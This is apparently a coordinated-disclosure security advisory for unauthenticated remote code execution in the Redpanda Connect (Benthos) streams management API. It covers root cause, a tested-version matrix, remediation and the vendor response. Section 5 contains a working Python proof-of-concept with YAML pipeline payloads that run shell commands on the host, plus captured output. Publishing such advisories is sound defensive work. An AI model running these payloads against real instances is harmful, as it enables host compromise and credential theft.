


# Security Advisory: CVE-2026-123270

<p align="center"></p>

**Summary:** Unauthenticated remote code execution in the Redpanda Connect (Benthos) streams-mode management API, via pipeline config upload.

**CVE:** CVE-2026-123270 (assigned by CERT/CC; published 2026-11-09).

**Status:** Published 2026-11-09. CVE-2026-123270 was assigned by CERT/CC, and the vendor has acknowledged and fixed the issue (see sections 5a, 10a, and 10b).

## 1. Reporter / Coordinator

| Field | Value |
|---|---|
| Reporter | Adrian Pastor (GitHub: [@pagvac](https://github.com/pagvac)) |
| Credit preference | Named (Adrian Pastor, GitHub: @pagvac) |
| Coordinator | CERT/CC (coordinated via VINCE) |

## 2. Affected vendor and product

| Field | Value |
|---|---|
| CVE identifier | CVE-2026-123270 (published 2026-11-09 by CERT/CC) |
| Vendor | Redpanda Data, Inc. |
| Product | Redpanda Connect (formerly Benthos) |
| Affected component | Streams-mode management (admin) HTTP API |
| Affected versions | Vulnerable in the default streams-mode configuration on every release up to and including v4.110.0. Confirmed by testing every stable release from v4.39.0 (2024-11-07) through v4.117.0 (2026-11-06): all 100 releases from v4.39.0 to v4.110.0 reproduce the unauthenticated RCE, and the insecure default predates the tested range. From v4.111.0 (2026-09-25) the streams CRUD endpoints are no longer registered by default (the embedded Benthos core moved from v4.80.0 to v4.81.0, which gates them behind a new `--bind-http` flag), so a default instance is not exploitable. This is a default-off change, not a removal or an authentication requirement: on v4.111.0 and later the identical RCE is reachable when the operator runs with `--bind-http` (verified on v4.116.1 and on the latest release, v4.117.0). See section 5a. |
| Vendor security contact | security@redpanda.com (https://github.com/redpanda-data/redpanda/security) |

## 3. Summary

When Redpanda Connect is run in **streams mode** (for example, `redpanda-connect streams`), it exposes a management HTTP API that binds to `0.0.0.0:4195` with authentication disabled by default (`basic_auth` off). Any client that can reach port 4195 can create a new stream by issuing an unauthenticated `POST /streams/{id}` with a pipeline definition. Redpanda Connect pipelines can legitimately contain processors that execute code, including `command` and `subprocess` (OS command execution), `ffi` (native library `dlopen` and call), and `sql_raw` with `unsafe_dynamic_query`. Because of this, an attacker can submit a pipeline whose processor runs an arbitrary command. Constructing the stream then executes attacker-controlled code on the host, with no authentication, no credentials, and no user interaction. The command's output can be returned directly in the HTTP response body over the same management port (section 5.3), so execution is not limited to blind operation.

This is a secure-by-default failure that escalates to unauthenticated remote code execution (CWE-306: Missing Authentication for Critical Function, leading to CWE-94: Code Injection / OS command execution).

## 3a. This is a distinct vulnerability from CVE-2026-82266

CVE-2026-82266 ("Redpanda Admin API Unauthenticated Superuser Access via Default Configuration") describes a superficially similar *class* of issue, so this report distinguishes the two explicitly. They are different vulnerabilities, in different products, in different code repositories, with different impact, and they require different fixes. A patch or mitigation for one does not remediate the other.

| Dimension | CVE-2026-82266 | This finding: CVE-2026-123270 (rp_connect_rce) |
|---|---|---|
| Product | **Redpanda** (the streaming broker / core) | **Redpanda Connect** (formerly Benthos), a separate product and separate binary |
| Language / repository | C++, `redpanda-data/redpanda` | Go, [`redpanda-data/connect`](https://github.com/redpanda-data/connect) (embeds the Benthos core, [`redpanda-data/benthos`](https://github.com/redpanda-data/benthos)) |
| Affected service | Broker **Admin API** | **Streams-mode management API** |
| TCP port | **9644** | **4195** |
| Governing default flag | `admin_api_require_auth` (default `false`) | `http.basic_auth.enabled` (default `false`) |
| Root-cause mechanism | Auth layer returns `superuser::yes` for anonymous requests (`src/v/security/request_auth.cc:197-202`) | No authentication gate on the stream CRUD routes; the management API accepts and instantiates pipeline configs from unauthenticated clients ([`internal/stream/manager/api.go:41-64`](https://github.com/redpanda-data/benthos/blob/v4.80.0/internal/stream/manager/api.go#L41-L64), [`internal/httpserver/basic_auth.go:47`](https://github.com/redpanda-data/benthos/blob/v4.80.0/internal/httpserver/basic_auth.go#L47)) |
| Attacker capability | Invoke privileged **Admin API operations** | **Supply and execute arbitrary code/commands** |
| Impact ceiling | Control-plane abuse bounded by the Admin API surface: create/delete users, overwrite cluster config, disrupt replication | **Arbitrary OS command execution (full host RCE)** as the Connect service account, a strictly greater impact class (CWE-306 leading to CWE-94) |
| Where the fix lives | Redpanda broker defaults (`conf/redpanda.yaml`, `request_auth.cc`) | Redpanda Connect defaults (streams-mode HTTP server) |

The two do share a root-cause *pattern*: an insecure-by-default management surface bound to `0.0.0.0` with authentication defaulting off (CWE-306). That shared pattern is why CVE-2026-82266 is cited in section 11 as precedent for treating this class as a Critical vulnerability. It does not, however, make the two the same vulnerability. This finding warrants its own CVE.

## 4. Technical details and root cause

Two independent defaults combine to create the exposure:

1. **The management API is network-exposed and unauthenticated by default.** In streams mode the admin API listener binds `0.0.0.0:4195`; `http.basic_auth.enabled` defaults to `false`. There is no authentication gate on the stream CRUD routes.
   - Relevant source, in the embedded Benthos core (`redpanda-data/benthos`, which Redpanda Connect v4.109.0 pins at v4.80.0 per its `go.mod`): [`internal/stream/manager/api.go:41-64`](https://github.com/redpanda-data/benthos/blob/v4.80.0/internal/stream/manager/api.go#L41-L64) (route registration for `/streams`, `/streams/{id}`), [`internal/api/docs.go:13-14`](https://github.com/redpanda-data/benthos/blob/v4.80.0/internal/api/docs.go#L13-L14), [`internal/httpserver/basic_auth.go:47`](https://github.com/redpanda-data/benthos/blob/v4.80.0/internal/httpserver/basic_auth.go#L47) (auth is opt-in).
2. **Pipeline configs may contain code-executing processors, and there is no allow-list gate when a config arrives over the network.** The `command`, `subprocess`, `ffi`, and `sql_raw` (with `unsafe_dynamic_query`) processors are designed to execute code as part of normal data-processing use. Nothing distinguishes a config authored locally by an operator from one POSTed by an anonymous remote client.

Together, these defaults make the streams management API an unauthenticated arbitrary-code-execution endpoint out of the box. Unlike a pre-registered dangerous tool, the attacker supplies the entire pipeline, and therefore the code, in the request body. No prior access, no operator misconfiguration beyond running the documented default mode, and no second vulnerability are required.

## 5. Proof of concept (full reproduction)



Confirmed end-to-end against the official v4.109.0 release binary (the latest release as of 2026-09-14). The reproduction is a single self-contained Python 3 script that uses only the standard library, so it runs with a stock `python3` and no third-party packages. It downloads and checksum-verifies the official binary, starts it in its default streams mode, confirms unauthenticated reachability, then demonstrates code execution two ways: a blind stage (output written to a file on the host) and an in-band stage (output returned directly in the HTTP response body). The payloads are intentionally non-destructive: they run `id` and write a timestamped `RCE_PROOF_<epoch>` marker, proving arbitrary command execution without causing damage. A single machine (loopback) reproduces it, and the vulnerability behaves identically over the network against `0.0.0.0:4195`.

### 5.1 Self-contained reproduction script (`rp_connect_rce_poc.py`)
```python
#!/usr/bin/env python3
"""
rp_connect_rce PoC - unauthenticated RCE in Redpanda Connect (Benthos) streams-mode management API.
Authorized, non-destructive, self-contained. Standard library only (no pip installs).

CVE: CVE-2026-123270.
Author: Adrian Pastor (GitHub: https://github.com/pagvac)

Verified end-to-end against the official v4.109.0 release binary (latest as of 2026-09-14).
The blind stage runs `id` and writes it plus an RCE_PROOF_<epoch> marker to a temp file.
The in-band stage returns `id`'s output directly in the HTTP response body.
"""
import hashlib, subprocess, tarfile, time, urllib.request

VERSION = "4.109.0"                       # latest release as of 2026-09-14
ASSET   = f"redpanda-connect_{VERSION}_darwin_arm64.tar.gz"   # Linux: ..._linux_amd64.tar.gz
BASE    = f"https://github.com/redpanda-data/connect/releases/download/v{VERSION}"
# Digest published alongside the release (darwin_arm64 v4.109.0):
EXPECTED_SHA256 = "b1dba90ed88e05bc964cb2bec384294561a29cda41c3754c57d2a276be68a3c6"

TARGET = "http://127.0.0.1:4195"          # or http://<target>:4195 over the network
MARKER = "/tmp/rp_connect_rce_marker.txt"

# --- embedded attacker payloads (pipeline configs) -------------------------------------

# Blind: one-shot `generate` input runs the command, output goes to a file on the host.
BLIND_PAYLOAD = """input:
  generate:
    count: 1
    interval: ""
    mapping: 'root = "poc-trigger"'
pipeline:
  processors:
    - command:
        name: sh
        args_mapping: |
          root = [ "-c", "id > /tmp/rp_connect_rce_marker.txt 2>&1; echo RCE_PROOF_$(date +%s) >> /tmp/rp_connect_rce_marker.txt" ]
output:
  drop: {}
"""

# In-band: `http_server` input + `sync_response` output returns command output in the response body.
INBAND_PAYLOAD = """input:
  http_server:
    path: /trigger
pipeline:
  processors:
    - command:
        name: sh
        args_mapping: 'root = [ "-c", "id" ]'
output:
  sync_response: {}
"""


def post(path, body, content_type=None):
    headers = {"Content-Type": content_type} if content_type else {}
    req = urllib.request.Request(TARGET + path, data=body.encode() if isinstance(body, str) else body,
                                 method="POST", headers=headers)
    return urllib.request.urlopen(req)


def main():
    # 1. Obtain and verify the official binary.
    urllib.request.urlretrieve(f"{BASE}/{ASSET}", "rc.tar.gz")
    digest = hashlib.sha256(open("rc.tar.gz", "rb").read()).hexdigest()
    assert digest == EXPECTED_SHA256, f"checksum mismatch: {digest}"
    with tarfile.open("rc.tar.gz") as tar:
        tar.extractall(".")               # extracts the redpanda-connect binary
    print(f"[1] verified official v{VERSION} binary: {digest}")

    # 2. Start the service in its default streams mode (the "victim").
    proc = subprocess.Popen(["./redpanda-connect", "streams"],
                            stdout=subprocess.PIPE, stderr=subprocess.STDOUT, text=True)
    time.sleep(4)                          # allow the HTTP listener to bind 0.0.0.0:4195
    try:
        # 3. Confirm unauthenticated reachability (read-only, no payload).
        with urllib.request.urlopen(f"{TARGET}/streams") as r:
            print(f"[3] GET /streams -> HTTP {r.status}  (200 = unauthenticated; 401/403 = auth on)")

        # 4. Blind exploit: one unauthenticated POST creates and runs the pipeline.
        with post("/streams/pwn", BLIND_PAYLOAD, "application/x-yaml") as r:
            print(f"[4] POST /streams/pwn -> HTTP {r.status}, body length {len(r.read())}")
        time.sleep(2)
        print("[5] marker file written by the Connect process (id output + RCE proof):")
        print(open(MARKER).read())

        # 6. In-band exploit: register once, then a single request returns the command output.
        with post("/streams/inband", INBAND_PAYLOAD, "application/x-yaml") as r:
            print(f"[6] POST /streams/inband -> HTTP {r.status}")
        with post("/inband/trigger", b"x") as r:
            print(f"[7] POST /inband/trigger -> HTTP {r.status}, "
                  f"Content-Type {r.headers.get('Content-Type')}, "
                  f"Content-Length {r.headers.get('Content-Length')}")
            print("[7] response body IS the command output (no file read):")
            print(r.read().decode())
    finally:
        proc.terminate()
        try:
            proc.wait(timeout=5)
        except Exception:
            proc.kill()


if __name__ == "__main__":
    main()
```

### 5.2 Observed output (actual captured evidence, v4.109.0)
```
[1] verified official v4.109.0 binary: b1dba90ed88e05bc964cb2bec384294561a29cda41c3754c57d2a276be68a3c6
[3] GET /streams -> HTTP 200  (200 = unauthenticated; 401/403 = auth on)
[4] POST /streams/pwn -> HTTP 200, body length 0
[5] marker file written by the Connect process (id output + RCE proof):
uid=1000(user) gid=1000(user) groups=1000(user)
RCE_PROOF_1789423975

[6] POST /streams/inband -> HTTP 200
[7] POST /inband/trigger -> HTTP 200, Content-Type application/octet-stream, Content-Length 48
[7] response body IS the command output (no file read):
uid=1000(user) gid=1000(user) groups=1000(user)
```
Steps `[4]` and `[5]` show blind execution: the unauthenticated `POST /streams/pwn` returns an empty body (`Content-Length: 0`), and the `id` output plus the `RCE_PROOF` marker appear in `/tmp/rp_connect_rce_marker.txt`, written by the Redpanda Connect process. Step `[7]` shows in-band execution: a single unauthenticated request returns the `id` output directly in the HTTP response body. Both confirm unauthenticated arbitrary OS command execution as the service account.

### 5.3 In-band result retrieval: command output returned in the HTTP response body

The blind stage of the script never shows `id`'s output in the HTTP response, only on disk. That is a demonstration choice, not a limitation of the vulnerability. Redpanda Connect/Benthos ships an `http_server` input paired with a `sync_response` output, designed to let a pipeline return its processed result synchronously as the HTTP response to the request that triggered it. As the in-band stage of the script shows (steps `[6]` and `[7]`, `INBAND_PAYLOAD`), an attacker can use this pair to have the command's output returned **directly in the HTTP response body**, on the same management port used to create the stream.

Operationally this reduces to a single command-carrying request. The attacker registers the stream once (an unauthenticated POST, the same mechanism as the blind stage), and from then on each unauthenticated request to the stream's input endpoint executes the command and returns its output in that same request's HTTP response body. The request that runs the command is the request that returns the result.

The `http_server`/`sync_response` components are long-standing, version-independent Connect features, so the same technique applies unchanged across every affected version in the default-vulnerable range (v4.39.0 through v4.110.0; see sections 5a and 5b), and on v4.111.0 and later once the management API is enabled. The captured HTTP response from the in-band stage against v4.109.0 (this is the HTTP response to the request that ran the command, not a file read):
```http
HTTP/1.1 200 OK
Content-Type: application/octet-stream
Content-Length: 48

uid=1000(user) gid=1000(user) groups=1000(user)
```

**Implication:** the vulnerability is not limited to blind command execution. The output of any command, including file contents (`cat` on credential files, cloud instance-metadata responses, environment variables), is returned directly in the HTTP response body of the request that runs it. This materially increases the ease of exploitation and the immediacy of the data-confidentiality impact described in section 6.

### 5.4 Notes for the vendor
- The benign `id` command can be replaced with any command. `subprocess`, `ffi`, and `sql_raw` with `unsafe_dynamic_query` are equivalent execution primitives reachable the same way.
- The issue reproduces over the network by pointing the requests at a non-loopback `0.0.0.0:4195` instance (set `TARGET` in the script accordingly). No change from the default configuration is needed to make it remotely exploitable.
- A read-only detector (`rp_connect_rce_audit.py`, supplied to the vendor and coordinator separately) distinguishes vulnerable instances (`GET /streams` returns 200) from authenticated ones (401/403) without sending any payload.

## 5a. Affected version range and release-note review

This issue was first confirmed on v4.105.0, the latest release at the time of initial testing. By the time of this update (2026-09-14) the vendor had shipped v4.106.0, v4.107.0, v4.107.1, v4.107.2, and v4.108.0, with v4.109.0 now latest; the reproduction in section 5 targets v4.109.0. The reporter reviewed the published release notes for every release from v4.105.0 through v4.109.0 and found no change to the streams-mode HTTP server's authentication default, no change to the default bind address, and no mention of this issue or of `http.basic_auth`. The only security-relevant entry in that window is an unrelated dependency bump in v4.109.0 (`amqp091-go`, addressing CVE-2026-79921), which does not touch the management API or its auth defaults.

The v4.109.0 startup is unchanged from earlier releases: it still logs `Listening for HTTP requests at: http://0.0.0.0:4195`, still binds `0.0.0.0:4195`, and `http.basic_auth` is still off by default. The identical PoC reproduces unchanged on both v4.105.0 and v4.109.0: same request shape, same route, same default auth state, same result. No part of the exploit needed adjustment across the range.

Update, 2026-11-05 (full release-matrix test): the reporter subsequently tested every stable release published in the two years to 2026-11-04, from v4.39.0 (2024-11-07) through v4.116.1 (2026-10-30), by running each official binary in its default streams mode and firing the PoC. All 100 releases from v4.39.0 through v4.110.0 reproduce the unauthenticated RCE, confirming the issue is present throughout the range and that the insecure default is long-standing (it predates the tested range). Beginning with v4.111.0 (2026-09-25), which bumped the embedded Benthos core from v4.80.0 to v4.81.0, the streams CRUD endpoints (`POST /streams/{id}`, `GET /streams`, and related routes) are no longer registered by default; Benthos v4.81.0 (2026-09-18) gates them behind a new `--bind-http` flag and deprecates the old `--no-api` flag. A default v4.111.0 or later instance therefore no longer exposes the exploit path. This is a default-off change rather than a fix to the underlying design: the endpoints still accept pipeline configuration, including code-executing processors, over HTTP with no authentication, so any operator who sets `--bind-http` without also configuring `http.basic_auth` or binding `http.address` to a trusted interface remains fully exploitable. The reporter verified this by re-enabling the API on v4.116.1 with `--bind-http`, where the identical PoC executes commands unchanged.

Update, 2026-11-08: the newest release at the time of writing, v4.117.0 (2026-11-06, Benthos v4.84.0), was tested after the matrix run above and behaves identically to the other v4.111.0-and-later builds: the streams management API is absent in the default configuration, and the identical PoC executes commands unchanged once `--bind-http` is set. Per-release results for the full tested range are tabulated in section 5b.

## 5b. Full tested-version matrix

Every stable release the reporter tested, with its result in the default streams-mode configuration (no flags beyond the documented `streams` subcommand). The default stops being exploitable at v4.111.0 (2026-09-25); on that release and later the same RCE is still reachable when the management API is re-enabled with `--bind-http` (see sections 5a and 10a).

| Version | Released | Default streams-mode result |
|---|---|---|
| v4.39.0 | 2024-11-07 | Vulnerable: unauth RCE by default |
| v4.40.0 | 2024-11-21 | Vulnerable: unauth RCE by default |
| v4.41.0 | 2024-11-25 | Vulnerable: unauth RCE by default |
| v4.42.0 | 2024-12-03 | Vulnerable: unauth RCE by default |
| v4.43.0 | 2024-12-05 | Vulnerable: unauth RCE by default |
| v4.43.1 | 2024-12-09 | Vulnerable: unauth RCE by default |
| v4.44.0 | 2024-12-13 | Vulnerable: unauth RCE by default |
| v4.45.0 | 2025-01-16 | Vulnerable: unauth RCE by default |
| v4.45.1 | 2025-01-17 | Vulnerable: unauth RCE by default |
| v4.46.0 | 2025-01-29 | Vulnerable: unauth RCE by default |
| v4.47.0 | 2025-02-07 | Vulnerable: unauth RCE by default |
| v4.47.1 | 2025-02-10 | Vulnerable: unauth RCE by default |
| v4.48.1 | 2025-03-04 | Vulnerable: unauth RCE by default |
| v4.49.1 | 2025-03-06 | Vulnerable: unauth RCE by default |
| v4.50.0 | 2025-03-18 | Vulnerable: unauth RCE by default |
| v4.51.0 | 2025-03-31 | Vulnerable: unauth RCE by default |
| v4.52.0 | 2025-04-03 | Vulnerable: unauth RCE by default |
| v4.53.0 | 2025-04-18 | Vulnerable: unauth RCE by default |
| v4.54.0 | 2025-04-29 | Vulnerable: unauth RCE by default |
| v4.54.1 | 2025-04-30 | Vulnerable: unauth RCE by default |
| v4.55.0 | 2025-05-15 | Vulnerable: unauth RCE by default |
| v4.55.1 | 2025-05-19 | Vulnerable: unauth RCE by default |
| v4.56.0 | 2025-06-05 | Vulnerable: unauth RCE by default |
| v4.57.1 | 2025-06-10 | Vulnerable: unauth RCE by default |
| v4.58.0 | 2025-06-13 | Vulnerable: unauth RCE by default |
| v4.58.1 | 2025-06-16 | Vulnerable: unauth RCE by default |
| v4.58.2 | 2025-06-17 | Vulnerable: unauth RCE by default |
| v4.59.0 | 2025-06-27 | Vulnerable: unauth RCE by default |
| v4.60.0 | 2025-07-10 | Vulnerable: unauth RCE by default |
| v4.60.1 | 2025-07-11 | Vulnerable: unauth RCE by default |
| v4.60.2 | 2025-07-15 | Vulnerable: unauth RCE by default |
| v4.61.0 | 2025-07-18 | Vulnerable: unauth RCE by default |
| v4.62.0 | 2025-08-18 | Vulnerable: unauth RCE by default |
| v4.63.0 | 2025-08-27 | Vulnerable: unauth RCE by default |
| v4.64.0 | 2025-09-19 | Vulnerable: unauth RCE by default |
| v4.65.0 | 2025-09-23 | Vulnerable: unauth RCE by default |
| v4.66.0 | 2025-10-03 | Vulnerable: unauth RCE by default |
| v4.66.1 | 2025-10-03 | Vulnerable: unauth RCE by default |
| v4.67.5 | 2025-10-14 | Vulnerable: unauth RCE by default |
| v4.68.0 | 2025-10-24 | Vulnerable: unauth RCE by default |
| v4.69.0 | 2025-11-07 | Vulnerable: unauth RCE by default |
| v4.70.0 | 2025-11-13 | Vulnerable: unauth RCE by default |
| v4.71.0 | 2025-11-21 | Vulnerable: unauth RCE by default |
| v4.72.0 | 2025-11-28 | Vulnerable: unauth RCE by default |
| v4.73.0 | 2025-12-12 | Vulnerable: unauth RCE by default |
| v4.74.0 | 2025-12-15 | Vulnerable: unauth RCE by default |
| v4.75.0 | 2025-12-15 | Vulnerable: unauth RCE by default |
| v4.75.1 | 2025-12-16 | Vulnerable: unauth RCE by default |
| v4.76.0 | 2025-12-18 | Vulnerable: unauth RCE by default |
| v4.76.1 | 2025-12-22 | Vulnerable: unauth RCE by default |
| v4.77.0 | 2026-01-06 | Vulnerable: unauth RCE by default |
| v4.78.0 | 2026-01-16 | Vulnerable: unauth RCE by default |
| v4.79.0 | 2026-01-30 | Vulnerable: unauth RCE by default |
| v4.80.0 | 2026-02-04 | Vulnerable: unauth RCE by default |
| v4.80.1 | 2026-02-05 | Vulnerable: unauth RCE by default |
| v4.81.0 | 2026-02-18 | Vulnerable: unauth RCE by default |
| v4.82.0 | 2026-03-05 | Vulnerable: unauth RCE by default |
| v4.83.0 | 2026-03-13 | Vulnerable: unauth RCE by default |
| v4.84.0 | 2026-03-19 | Vulnerable: unauth RCE by default |
| v4.84.1 | 2026-03-20 | Vulnerable: unauth RCE by default |
| v4.85.0 | 2026-03-26 | Vulnerable: unauth RCE by default |
| v4.86.0 | 2026-04-02 | Vulnerable: unauth RCE by default |
| v4.87.0 | 2026-04-09 | Vulnerable: unauth RCE by default |
| v4.88.0 | 2026-04-16 | Vulnerable: unauth RCE by default |
| v4.89.0 | 2026-04-23 | Vulnerable: unauth RCE by default |
| v4.89.1 | 2026-04-23 | Vulnerable: unauth RCE by default |
| v4.89.2 | 2026-04-28 | Vulnerable: unauth RCE by default |
| v4.89.3 | 2026-04-30 | Vulnerable: unauth RCE by default |
| v4.90.0 | 2026-05-01 | Vulnerable: unauth RCE by default |
| v4.90.1 | 2026-05-01 | Vulnerable: unauth RCE by default |
| v4.90.2 | 2026-05-02 | Vulnerable: unauth RCE by default |
| v4.90.3 | 2026-05-06 | Vulnerable: unauth RCE by default |
| v4.91.0 | 2026-05-08 | Vulnerable: unauth RCE by default |
| v4.92.0 | 2026-05-15 | Vulnerable: unauth RCE by default |
| v4.93.0 | 2026-05-21 | Vulnerable: unauth RCE by default |
| v4.94.0 | 2026-05-28 | Vulnerable: unauth RCE by default |
| v4.94.1 | 2026-05-29 | Vulnerable: unauth RCE by default |
| v4.95.0 | 2026-06-04 | Vulnerable: unauth RCE by default |
| v4.96.0 | 2026-06-11 | Vulnerable: unauth RCE by default |
| v4.96.1 | 2026-06-12 | Vulnerable: unauth RCE by default |
| v4.96.2 | 2026-06-16 | Vulnerable: unauth RCE by default |
| v4.96.3 | 2026-06-17 | Vulnerable: unauth RCE by default |
| v4.97.0 | 2026-06-18 | Vulnerable: unauth RCE by default |
| v4.98.0 | 2026-06-26 | Vulnerable: unauth RCE by default |
| v4.99.0 | 2026-07-02 | Vulnerable: unauth RCE by default |
| v4.100.0 | 2026-07-09 | Vulnerable: unauth RCE by default |
| v4.101.0 | 2026-07-17 | Vulnerable: unauth RCE by default |
| v4.102.0 | 2026-07-23 | Vulnerable: unauth RCE by default |
| v4.103.0 | 2026-07-31 | Vulnerable: unauth RCE by default |
| v4.103.1 | 2026-07-31 | Vulnerable: unauth RCE by default |
| v4.103.2 | 2026-08-06 | Vulnerable: unauth RCE by default |
| v4.104.0 | 2026-08-07 | Vulnerable: unauth RCE by default |
| v4.105.0 | 2026-08-13 | Vulnerable: unauth RCE by default |
| v4.106.0 | 2026-08-20 | Vulnerable: unauth RCE by default |
| v4.107.0 | 2026-08-27 | Vulnerable: unauth RCE by default |
| v4.107.1 | 2026-08-28 | Vulnerable: unauth RCE by default |
| v4.107.2 | 2026-08-31 | Vulnerable: unauth RCE by default |
| v4.108.0 | 2026-09-03 | Vulnerable: unauth RCE by default |
| v4.109.0 | 2026-09-10 | Vulnerable: unauth RCE by default |
| v4.110.0 | 2026-09-17 | Vulnerable: unauth RCE by default |
| **Default behavior changed in v4.111.0 (2026-09-25): streams CRUD endpoints no longer registered by default** | | |
| v4.111.0 | 2026-09-25 | Not vulnerable by default (streams API off) |
| v4.111.1 | 2026-09-30 | Not vulnerable by default (streams API off) |
| v4.112.0 | 2026-10-02 | Not vulnerable by default (streams API off) |
| v4.113.0 | 2026-10-09 | Not vulnerable by default (streams API off) |
| v4.113.1 | 2026-10-14 | Not vulnerable by default (streams API off) |
| v4.114.0 | 2026-10-16 | Not vulnerable by default (streams API off) |
| v4.115.0 | 2026-10-22 | Not vulnerable by default (streams API off) |
| v4.115.1 | 2026-10-23 | Not vulnerable by default (streams API off) |
| v4.116.0 | 2026-10-30 | Not vulnerable by default (streams API off) |
| v4.116.1 | 2026-10-30 | Not vulnerable by default (streams API off) |
| v4.117.0 | 2026-11-06 | Not vulnerable by default (streams API off) |

## 6. Impact

An unauthenticated attacker with network reachability to port 4195 obtains arbitrary OS command execution as the Redpanda Connect service account. Consequences include full host compromise, theft of any credentials and secrets available to the process (Kafka SASL credentials, cloud storage keys, connection strings referenced by pipelines), pivoting into the data plane and connected systems, data exfiltration or tampering in the streams the instance processes, and denial of service. As shown in section 5.3, this is not limited to blind execution: command output is returned directly in the HTTP response body of the request that runs the command, so credential theft and file disclosure can be read back in-band over the same management port.

## 7. Severity

| Metric | Value |
|---|---|
| CWE | CWE-306 (Missing Authentication for Critical Function), leading to CWE-94 (Code Injection) |
| CVSS v4.0 | **10.0, Critical.** `CVSS:4.0/AV:N/AC:L/AT:N/PR:N/UI:N/VC:H/VI:H/VA:H/SC:H/SI:H/SA:H` |

Subsequent-system impact is scored High (`SC:H/SI:H/SA:H`) because the RCE runs as the Connect service account and yields the credentials and secrets available to that process (Kafka SASL credentials, cloud storage keys, connection strings), enabling compromise of the connected data plane and other systems, as detailed in section 6. Scored with subsequent impact None the vector would be 9.3.

## 8. Attack prerequisites and exploitability

- **Prerequisites:** network reachability to TCP/4195 on an instance running in streams mode with default auth settings. No credentials, no authenticated session, no user interaction, and no chained vulnerability.
- **Attack complexity:** low. A single HTTP POST for blind execution, or the in-band technique of section 5.3 where a one-time stream registration is followed by a single command-carrying request that returns the command's output directly in its HTTP response body. Both are easily automatable.
- **Real-world exposure (as of this report):** a passive Shodan sweep on 2026-09-14 found no internet-exposed instances of this API on the reporter's target scope or via product fingerprinting. Exploitation in the wild is assessed as not observed. The risk is latent and depends on operators exposing the default-mode API.

## 9. Recommended remediation

The default configuration must change so that an out-of-the-box streams-mode instance is not remotely exploitable. Two changes are required, and both should ship as the new defaults rather than as opt-in flags.

1. **Require authentication by default.** The streams management API must reject unauthenticated requests unless the operator has explicitly configured credentials. `http.basic_auth.enabled` (or an equivalent auth mechanism) must default to enabled and required, and an instance that exposes the management API with no authentication configured should fail to start with a hard error rather than a log warning. "Warn and continue" is insufficient: CVE-2026-82266 shows that the same warning-only pattern was exploitable in practice on Redpanda's Admin API.

2. **Bind to `127.0.0.1` by default, not `0.0.0.0`.** The management API listener must default to loopback. Operators who need to expose it on another interface should have to opt in explicitly (for example, by setting `http.address`), and that opt-in should be gated on requirement (1) being satisfied, so that binding a non-loopback interface without authentication is refused.

Defense in depth (recommended in addition to items 1 and 2, not instead of them):

3. **Gate code-executing processors on network-supplied configs.** `command`, `subprocess`, `ffi`, and `sql_raw` with `unsafe_dynamic_query` should sit behind an explicit allow-list or "dangerous plugins enabled" flag when a pipeline arrives over the management API, so that a remotely supplied config cannot silently reach an execution primitive even if the API is misconfigured to be reachable.

**Upgrade note:** Redpanda Connect v4.111.0 and later no longer register the streams management endpoints by default (see sections 5a, 5b, and 10a), so upgrading removes the out-of-the-box exposure. This is not a complete fix: an operator who re-enables the management API with `--bind-http` must still apply items 1 through 3 above, because the identical RCE remains reachable otherwise.

**Interim operator workarounds** (until a fixed release): set `http.basic_auth.enabled: true` with credentials; set `http.address: 127.0.0.1:4195` (or a management-only interface); and firewall TCP/4195 to trusted operator ranges.

## 10a. Vendor response (silent mitigation)

A default-off mitigation for this issue shipped in the embedded Benthos core shortly after notification, without public acknowledgment of the report. Benthos pull request #506 ("streams/io: make the management API and dynamic component HTTP endpoints opt-in", by the Benthos maintainer `squiidz`) was opened on 2026-09-16, the day after the reporter's direct email to `security@redpanda.com` (2026-09-15) and two days after the VINCE submission (2026-09-14), and merged on 2026-09-18 (commit `c2a2dcffc9`). It stops registering the stream CRUD endpoints (`POST /streams/{id}` and related routes) by default and gates them behind the new `--bind-http` flag. The pull request's own description states that those endpoints "accept pipeline configuration over HTTP" and that operators enabling them should secure the server with `http.basic_auth` or by binding `http.address` to a trusted interface. The change first reached a tagged Benthos release in v4.81.0 (2026-09-18) and a Redpanda Connect release in v4.111.0 (2026-09-25).

